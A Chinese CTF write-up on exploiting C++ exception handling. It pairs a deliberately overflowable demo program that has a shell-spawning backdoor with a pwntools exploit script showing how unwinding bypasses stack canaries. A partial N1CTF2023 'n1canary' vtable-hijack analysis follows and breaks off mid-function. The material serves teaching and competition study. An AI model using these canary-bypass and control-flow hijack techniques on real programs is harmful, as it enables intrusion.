# 分享一次 C++ PWN 出题经历——深入研究异常处理机制-先知社区

> **来源**: https://xz.aliyun.com/news/16089  
> **文章ID**: 16089

---

## 一、原理探究

### C++异常处理

本节内容针对 Linux 下的 C++ 异常处理机制，重点在于研究如何**在异常处理流程中利用溢出漏洞**，所以不对异常处理及 `unwind` 的过程做详细分析，只做简单介绍

异常机制中主要的三个关键字：`throw` 抛出异常，`try` 包含异常模块, `catch` 捕捉抛出的异常，它们一起构成了由 **“抛出->捕捉->回退”** 等步骤组成的整套异常处理机制

当一个异常被抛出时，就会立即引发 C++ 的异常捕获机制。异常被抛出后如果在当前函数内没能被 catch，该异常就会沿着函数的调用链继续往上抛，在调用链上的每一个函数中尝试找到相应的 catch 并执行其代码块，直到走完整个调用链。如果最终还是没能找到相应的 catch，那么程序会调用 `std::terminate()`，这个函数默认是把程序 `abort`

其中，从程序抛出异常开始，沿着函数的调用链找相应的 catch 代码块的整个过程叫作栈回退 `stack unwind`

**回到对 C++ 异常处理机制进行利用的话题，下面开始调试一个 demo 来加深对异常处理机制的理解，目的是去验证下列两个想法的可行性：**

1. 通过篡改 rbp 可以实现类似栈迁移的效果，来控制程序执行流 ROP
2. `unwind` 会检测在调用链上的函数里是否有 `catch handler`，要有能捕捉对应类型异常的 catch 块；通过劫持 ret 可以执行到目标函数的 catch 代码块，但是前提是要需要拥有合法的 rbp

demo 的源码如下

```
// exception.cpp
// g++ exception.cpp -o exc -no-pie -fPIC
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void backdoor()
{
    try
    {
        printf("We have never called this backdoor!");
    }
    catch (const char *s)
    {
        printf("[!] Backdoor has catched the exception: %s\n", s);
        system("/bin/sh");
    }
}

class x
{
public:
    char buf[0x10];
    x(void)
    {
        // printf("x:x() called!\n");
    }
    ~x(void)
    {
        // printf("x:~x() called!\n");
    }
};

void input()
{
    x tmp;
    printf("[!] enter your input:");
    fflush(stdout);
    int count = 0x100;
    size_t len = read(0, tmp.buf, count);
    if (len > 0x10)
    {
        throw "Buffer overflow.";
    }
    printf("[+] input() return.\n");
}

int main()
{
    try
    {
        input();
        printf("--------------------------------------\n");
        throw 1;
    }
    catch (int x)
    {
        printf("[-] Int: %d\n", x);
    }
    catch (const char *s)
    {
        printf("[-] String: %s\n", s);
    }
    printf("[+] main() return.\n");
    return 0;
}

```

### 调试分析第一种利用方式

上述源码编译出来的可执行文件的保护如下，开了 canary 保护

```
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

输入点 buf 距离 rbp 的距离是 0x30



所以测试输入长度分别为 0x31 和 0x39 的 PoC，发现会报不同的 crash，合理推测栈上的数据（例如 ret, rbp）会影响异常处理的流程

```
ve1kcon@wsl:~$ cyclic 48
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
ve1kcon@wsl:~$ cyclic 56
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa

```

能发现无论怎么样都不会输出程序里写在 `input()` 函数里的 `[+] input() return.`

这是因为异常处理时从 `__cxa_throw()` 开始，之后进行 `unwind, cleanup, handler`, 程序**不会再执行发生异常所在函数的剩余部分**，会沿着函数调用链往回找**能处理对应异常的**最近的函数，然后**回退至此函数执行其 catch 块**后跟着往下运行，途径的函数的剩余部分也不会再执行，自然不会执行到出现异常的函数的 throw 后面的语句，更不会执行到这些函数的 ret

> 这里就能抛出一个思考了：对 canary 的检测一般在最后的函数返回处，那么在执行异常处理流程时不就能跳过 `stack_check_fail()` 这个调用了嘛？



下面利用 `poc1 = padding + '\x01'` 覆盖 rbp 值，可以将断点断在 `call _read` 指令后面一点的位置，这样就能断下来了，在这里观察到 rbp 的低一字节已被成功篡改为 `'\x01'`



继续运行至程序报错的位置，最后在 `0x401506` 这条 ret 指令处出了问题，是错误的返回地址导致的，记录下这个指令地址，后续可以将断点打在这里，观察是否能成功控制程序流



根据这个指令的地址，可以在 IDA 中定位到这是异常处理结束后最终的 ret 指令，所以可以确定是在执行 main 的 handler 时 crash，那么上述报错出现的原因其实就很明显了，是因为最后执行的 `leave; ret` 使得 ret 的地址变成了 `[rbp+8]`，导致不合法的返回地址。这也意味着在 handler 里就能够完成栈迁移，所以可以尝试通过篡改 rbp 实现控制程序执行提前布置好的 ROP 链



接下来尝试劫持程序去执行 GOT 表里的函数

```
.got.plt:0000000000404040 off_404040      dq offset fflush        ; DATA XREF: _fflush+4↑r
.got.plt:0000000000404048 off_404048      dq offset read          ; DATA XREF: _read+4↑r
.got.plt:0000000000404050 off_404050      dq offset puts          ; DATA XREF: _puts+4↑r
.got.plt:0000000000404058 off_404058      dq offset __cxa_end_catch

```

利用 `poc2 = padding + p64(0x404050-0x8)`，运行到上述断点处发现成功调用到了 `puts` 函数



证明第一种利用方式可行

### 关于第一种利用方式的后续思考

但这种利用方式只适用于 “通过将 `old_rbp` 存储于栈中来保留现场” 的函数调用约定，以及需要出现异常的函数的 `caller function` 要存在处理对应异常的代码块，否则也会走到 `terminate`

为了调试上述说法，对 demo 作了修改，主要改动如下

```
void test()
{
 x tmp;
 printf("[!] enter your input:");
 fflush(stdout);
 int count = 0x100;
 size_t len = read(0, tmp.buf, count);
 if (len > 0x10)
 {
     throw "Buffer overflow.";
 }
 printf("[+] test() return.\n");
}

void input()
{
 test();
 printf("[+] input() return.\n");
}

```

这回同样是使用 `poc2`，但 crash 了


对 demo 重新修改的部分如下

```
void input()
{
 try
 {
     test();
 }
 catch (const char *s)
 {
     printf("[-] String(From input): %s\n", s);
 }
 printf("[+] input() return.\n");
}

```

复现成功，这次是在 input 的 handler 里被劫持，而非在 main 了



但是噢，如果是通过打返回地址劫持到另外一个函数的异常处理模块，是没有 “出现异常的函数的 caller function 要存在处理对应异常的代码块” 这层限制的，但这也是后话了

### 调试分析第二种利用方式

由于调用链 `__cxa_throw` -> `_Unwind_RaiseException`，在 unwind 函数里会取运行时栈上的返回地址 callee ret 来对整个调用链进行检查，它会在链上的函数里搜索 `catch handler`，若所有函数中都无对应类型的 catch 块，就会调用 `__teminate()` 终止进程。

利用 `poc3 = poc2 + 'b'*8` 调试一下后面的 unwind 函数的过程，一直运行至 `_Unwind_RaiseException+463` 发生了 crash，合理猜测是在这调用的函数里作的检测，所有可以观察下此时传参的情况，下断方式是 `b *(&_Unwind_RaiseException+463)`



这个地方循环执行了几次

第一次，`rdx -> 0x4000000000000000`



第二次，`rdx -> 0x4013a7 (input()+162)`



第三次，`rdx -> 0x6262626262626262 ('bbbbbbbb')`



再琢磨下异常处理机制，就能够发现另外一个利用点，就是假如函数A内有能够处理对应异常的 catch 块，是否可以通过影响运行时栈的函数调用链，即更改某 callee function ret 地址，从而能够成功执行到函数A的 handler 呢

下面尝试通过直接劫持 `input()` 函数的 ret, 可以发现在源码中有定义 `backdoor()` 函数，但程序中并**没有一处存在对该后门函数的引用**，利用 `poc4 = poc2 + p64(0x401292+1)` 尝试触发后门

> 这里将返回地址填充成了 `backdoor()` 函数里 **try 代码块**里的地址，它是一个范围，经测试能够成功利用的是一个**左开**右不确定的区间（x）

```
.text:0000000000401283                 lea     rax, format     ; "We have never called this backdoor!"
.text:000000000040128A                 mov     rdi, rax        ; format
.text:000000000040128D                 mov     eax, 0
.text:0000000000401292 ;   try {
.text:0000000000401292                 call    _printf
.text:0000000000401292 ;   } // starts at 401292
.text:0000000000401297                 jmp     short loc_4012FF

```

可以看见程序执行了后门函数的异常处理模块，复现成功，成功执行到了一个从未引用过的函数，而且程序从始至终都是开了 canary 保护的，这直接造成的栈溢出却能绕过 `stack_check_fail()` 这个函数对栈进行检测


exp 如下

```
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ["tmux", "splitw", "-h"]
pwnfile = './exc'
p = process(pwnfile)

def debug(content=None):
    if content is None:
        gdb.attach(p)
        pause()
    else:
        gdb.attach(p, content)
        pause()

def exp():
    # debug('b *0x401371')              # call _read 
    # b __cxa_throw@plt
    # b *0x401506                       # handler ret
    # b *(&_Unwind_RaiseException+463)  # check ret
    test = 'a'*5
    padding = 'a'*0x30
    # poc = padding + '\n'
    poc1 = padding + '\x01'
    poc2 = padding + p64(0x404050-0x8)
    poc3 = poc2 + 'b'*8
    poc4 = poc2 + p64(0x401292+1)
    p.sendafter('input:', poc4)

exp()
p.interactive()

```

## 二、N1CTF2023 - n1canary

### 简要分析

程序保护如下

```
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

这是一道非常具有迷惑性的题（题目附件已上传），大致意思是：出题人自行实现了一个 canary，并将它布置在系统 canary 上面 `0x10` 的地方，但**所有 canary 相关的检测其实都是绕不过的**，漏洞点是 `launch()` 函数处的栈溢出，触发点是 `raise()` 函数处的异常抛出，异常未能正确被捕获并处理，最终是能够避开对栈上 canary 的验证并利用析构函数 ROP

### 程序流分析

`main()` 函数逻辑如下

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rax
  _QWORD v6[3]; // [rsp+0h] [rbp-18h] BYREF

  v6[1] = __readfsqword(0x28u);
  setbuf(stdin, 0LL, envp);
  setbuf(stdout, 0LL, v3);
  init_canary();                                                // canary init
  std::make_unique<BOFApp>((__int64)v6);                        // *v6 -> vtable for BOFApp+16 (0x4ed510)
  v4 = std::unique_ptr<BOFApp>::operator->((__int64)v6);        // v4 = v6
  (*(void (__fastcall **)(__int64))(*(_QWORD *)v4 + 16LL))(v4); // call 0x403552 (BOFApp::launch())
  std::unique_ptr<BOFApp>::~unique_ptr((__int64)v6);
  return 0;
}

```

初始化 `sys_canary` 并读取用户输入的64个字节作为 `user_canary`，用来生成自定义 canary，第一个输入点的 `user_canary` 是往 `.bss` 段上写的

```
__int64 init_canary(void)
{
  if ( getrandom(&sys_canary, 64LL, 0LL) != 64 )
    raise("canary init error");
  puts("To increase entropy, give me your canary");
  return readall<unsigned long long [8]>(&user_canary);
}

__int64 __fastcall ProtectedBuffer<64ul>::getCanary(unsigned __int64 a1)
{
  return user_canary[(a1 >> 4) & 7] ^ sys_canary[(a1 >> 4) & 7];
}

```

这段代码实现了 `BOFApp` 类的**构造函数**，首先调用基类构造函数实现了 `BOFApp` 对象基类部分的初始化，然后将 `BOFApp` 对象的虚函数表指针设置为 `off_4ED510`，使得对象能够正确**调用其虚函数**。通过调试发现，赋值语句执行前 `this -> vtable for UnsafeApp+16`，执行后 `this -> vtable for BOFApp+16`

```
void __fastcall BOFApp::BOFApp(BOFApp *this)
{
  UnsafeApp::UnsafeApp(this);
  *(_QWORD *)this = off_4ED510;
}

```

创建一个 `BOFApp` 类的实例，然后调用 `BOFApp` 的**构造函数**初始化对象，跟进后面那个函数发现进行了 `*a1 = v1` 的操作

```
__int64 __fastcall std::make_unique<BOFApp>(__int64 a1)
{
  BOFApp *v1; // rbx

  v1 = (BOFApp *)operator new(8uLL);
  *(_QWORD *)v1 = 0LL;
  BOFApp::BOFApp(v1);
  std::unique_ptr<BOFApp>::unique_ptr<std::default_delete<BOFApp>,void>(a1, v1);
  return a1;
}

```

执行完 `std::make_unique<BOFApp>((__int64)v6)` 后，栈变量 `v6` 被重新赋值



于是接下来调用的是 `BOFApp::launch()` 函数

```
pwndbg> x/20gx 0x4ed510+0x10
0x4ed520 <vtable for BOFApp+32>:        0x0000000000403552      0x0000000000000000

```

在 IDA 里计算也是一样的，执行 `(*(void (__fastcall **)(__int64))(*(_QWORD *)v4 + 0x10LL))(v4);` 语句，即 `call *(0x4ED510+0x10)`

```
.data.rel.ro:00000000004ED510 off_4ED510      dq offset _ZN6BOFAppD2Ev
.data.rel.ro:00000000004ED510                                         ; DATA XREF: BOFApp::BOFApp(void)+16↑o
.data.rel.ro:00000000004ED510                                         ; BOFApp::~BOFApp()+9↑o
.data.rel.ro:00000000004ED510                                         ; BOFApp::~BOFApp()
.data.rel.ro:00000000004ED518                 dq offset _ZN6BOFAppD0Ev ; BOFApp::~BOFApp()
.data.rel.ro:00000000004ED520                 dq offset _ZN6BOFApp6launchEv ; BOFApp::launch(void)

```

最后是对象的**析构函数**，里面要重点关注的函数的路径是 `std::unique_ptr<BOFApp>::~unique_ptr()` --> `std::default_delete<BOFApp>::operator()(BOFApp*)`，**这里存在函数指针调用**，这意味着只需要**控制 `a2` 的值就能控制程序流**

```
__int64 __fastcall std::default_delete<BOFApp>::operator()(__int64 a1, __int64 a2)
{
  __int64 result; // rax

  result = a2;
  if ( a2 )
    return (*(__int64 (__fastcall **)(__int64))(*(_QWORD *)a2 + 8LL))(a2);
  return result;
}

```

通过逆向分析和调试可知**参数 `a2` 与前面提到的栈变量 `v6` 有关**，所以将断点打在 `0x40340D`，正常输入，调试一下看传参情况



查看虚函数表指针 `+0x8` 位置处指向什么函数，`0x4038b8`



再把断点打在 `0x403909`，看到这里确实调用到了上述函数



### 漏洞点分析&跟踪调用链

**第二个输入点存在栈溢出**，调用链是 `BOFApp::launch(void)` --> `ProtectedBuffer<64ul>::mut<BOFApp::launch(void)::{lambda(char *)#1}>(BOFApp::launch(void)::{lambda(char *)#1} const&)` --> `BOFApp::launch(void)::{lambda(char *)#1}::operator()(char *)`

```
__int64 __fastcall BOFApp::launch(void)::{lambda(char *)#1}::operator()(
        __int64 a1,
        __int64 a2,
        int a3,
        int a4,
        int a5,
        int a6)
{
  return _isoc23_scanf((unsigned int)"%[^\n]", a2, a3, a4, a5, a6, a2, a1);
}

```

下列是 GPT 的解释

> 1. `_isoc23_scanf` 根据格式字符串读取输入。格式字符串 `"%[^\n]"` 表示读取所有非换行符的字符，直到遇到换行符为止。这样写其实就相当于 c 的 gets() 了。
> 2. 输入存储：将读取的输入存储在 `a2` 指向的缓冲区中。
> 3. `a3, a4, a5, a6` 是额外参数，可能用于其他目的。

观察下这个 `_isoc23_scanf()` 函数，断点打在 `0x403547` 处观察数据写入的位置



计算输入点与目标指针的距离为 `0x70`



所以可以利用上述栈溢出去修改自定义 canary，来触发异常，**栈回退**避开对自定义 canary 和系统 canary 的检测，最后调用到**析构函数**

这样下来，思路就理清楚了，在 `user_canary` 处伪造虚函数表指向后门函数，然后**利用溢出修改存储在栈上的 `BOFApp` 对象的虚函数表指针**，即变量 `v6`，在此过程中自定义 canary 一定会被篡改，程序将会**在 `raise()` 函数里抛出异常**，这里是漏洞的触发点，调用链如下  
`BOFApp::launch(void)` --> `ProtectedBuffer<64ul>::mut<BOFApp::launch(void)::{lambda(char *)#1}>(BOFApp::launch(void)::{lambda(char *)#1} const&)` --> `ProtectedBuffer<64ul>::check(void)` --> `raise(char const*)`

```
bool __fastcall ProtectedBuffer<64ul>::check(unsigned __int64 a1)
{
  __int64 v1; // rbx
  bool result; // al

  v1 = *(_QWORD *)(a1 + 0x48);
  result = v1 != ProtectedBuffer<64ul>::getCanary(a1);
  if ( result )
